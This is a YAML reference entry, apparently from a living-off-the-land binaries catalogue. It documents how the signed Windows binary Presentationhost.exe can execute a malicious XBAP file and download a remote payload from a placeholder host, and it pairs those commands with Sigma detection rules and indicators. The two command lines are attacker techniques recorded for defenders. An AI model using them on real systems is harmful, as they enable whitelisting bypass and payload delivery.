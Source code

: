 ```yaml
---
Name: Presentationhost.exe
Description: File is used for executing Browser applications
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Presentationhost.exe C:\temp\Evil.xbap
    Description: Executes the target XAML Browser Application (XBAP) file
    Usecase: Execute code within xbap files
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: XBAP
  - Command: Presentationhost.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\Presentationhost.exe
  - Path: C:\Windows\SysWOW64\Presentationhost.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost.yml
  - IOC: Execution of .xbap files may not be common on production workstations
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

